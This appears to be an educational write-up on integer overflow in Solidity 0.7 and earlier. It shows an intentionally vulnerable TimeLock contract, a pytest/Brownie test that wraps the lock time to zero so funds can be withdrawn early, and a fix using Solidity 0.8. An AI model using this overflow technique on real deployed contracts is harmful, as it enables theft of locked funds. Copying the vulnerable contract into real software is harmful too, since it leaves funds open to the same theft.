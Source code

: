 ```yaml
---
sidebar_position: 2
tags: [overflow, solidity, attack]
---
```


# Overflow

:::caution DEPRECATED

This exploit is reproducible only in Solidity **version 7** and below. Since the release of the version **8**, the overflow code causes `VirtualMachineError` by default.

:::

### Description

An arithmetic overflow results from a calculation that exceeds the memory space designated to hold it, or the computation result is outside the range of the variable type. In simple applications, we would attempt to run the exploit that turns the positive number into 0, allowing us to perform the logic we would not perform otherwise.

Consider the following smart contract:

```solidity title=/contracts/overflow/TimeLock.sol#L14 sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/contracts/overflow/TimeLock.sol#L14 
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

contract TimeLock {
    mapping(address => uint256) public balances;
    mapping(address => uint256) public lockTime;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint256 _secondsToIncrease) public {
        // highlight-next-line
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0);
        require(block.timestamp > lockTime[msg.sender]);
        uint256 transferValue = balances[msg.sender];
        balances[msg.sender] = 0;
        address payable receiver = payable(msg.sender);
        receiver.transfer(transferValue);
    }

    function balanceOf() public view returns (uint256) {
        return address(this).balance;
    }

    function lockTimeOf(address _user) public view returns (uint256) {
        return lockTime[_user];
    }
}
```

On line 14, the arithmetic operation updates the user's balance lock time. The `uint256` variable holds the values from 0 up until 2^256 - 1, which is precisely 256 bits. If we try to assign a new value more than 2^256 - 1, e.g., 2^256, the `_secondsToIncrease` will become 0. The types work circularly in this case, so once the limit is reached, the variable starts from 0.

So the attacker might exploit this behavior to overcome the funds lock time and perform the withdrawal earlier.

### How to test

Let's simulate the attack that via python unit test. The highlighted lines 22-24 below execute the overflow attack:

```python sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/overflow/test_time_lock.py title=/tests/overflow/test_time_lock.py 
import pytest
from brownie import exceptions
from scripts.utils import get_attacker_account, get_user_account
from scripts.overflow.deploy_and_attack import deploy_time_lock, deploy_time_lock_fixed
from web3 import Web3


def test_time_lock_immediate_withdrawal_successful():
    # 1. Deploy TimeLock smart contract
    time_lock = deploy_time_lock()

    # 2. User deposits 1 ETH on the time lock smart contract balance
    deposit_tx = time_lock.deposit(
        {"from": get_user_account(), "value": Web3.toWei(1, "ether")}
    )
    deposit_tx.wait(1)

    # Let's keep track of the user balance, ETH
    user_balance = get_user_account().balance() / 10**18

    # 3. Execute the overflow attack
    #  highlight-next-line
    increase_tx = time_lock.increaseLockTime(
    #  highlight-next-line
        pow(2, 256) - time_lock.lockTimeOf(get_user_account().address),
    #  highlight-next-line
        {"from": get_user_account()},
    )
    increase_tx.wait(1)

    # 4. Since the lock time is 0, we can easily withdraw the ETH
    withdraw_tx = time_lock.withdraw({"from": get_user_account()})
    withdraw_tx.wait(1)

    # So it should not be possible for user to withdraw the ETH, but the user's 1 ETH is back on his balance
    assert get_user_account().balance() / 10**18 == user_balance + 1

```

This test should successfully pass, and the user gets his 1 ETH back on his balance immediately.

Also, consider running the brownie [script](https://github.com/kkateq/solidity-hacks/blob/main/scripts/overflow/deploy_and_attack.py#L28) as well instead of the unit test to follow transactions log.


### How to fix

If you would use solidity prior v8, it's necessary to use safe math libraries to fix this problem. One of the examples is the [SafeMath](https://github.com/OpenZeppelin/zeppelin-solidity/blob/master/contracts/math/SafeMath.sol) from OpenZeppelin. The best option is to upgrade Solidity to v8. 


### Demo

I [chose](https://github.com/kkateq/solidity-hacks/blob/main/contracts/overflow/TimeLockFixed.sol#L2) upgrading Solidity version to fix the problem. Additionally, this points again that using the latest available solidity version is the safest option to go.

Check out the unit test that now fails to exploit the contract:

```python title=/tests/overflow/test_time_lock.py#L34 sourceUrl=https://github.com/kkateq/solidity-hacks/blob/main/tests/overflow/test_time_lock.py#L34
def test_time_lock_fixed_immediate_withdrawal_failed():
    # 1. Deploy TimeLock contract
    time_lock = deploy_time_lock_fixed()

    # 2. Deposit funds using another user account
    deposit_tx = time_lock.deposit(
        {"from": get_user_account(), "value": Web3.toWei(1, "ether")}
    )

    user_balance = get_user_account().balance() / 10**18

    deposit_tx.wait(1)

    # 3. Execute attack
    #  highlight-next-line
    with pytest.raises(exceptions.VirtualMachineError):
        increase_tx = time_lock.increaseLockTime(
            pow(2, 256) - time_lock.lockTimeOf(get_user_account().address),
            {"from": get_user_account()},
        )
        increase_tx.wait(1)

    assert get_user_account().balance() / 10**18 == user_balance
```

**Thank you for reading and good luck with building secure blockchain!**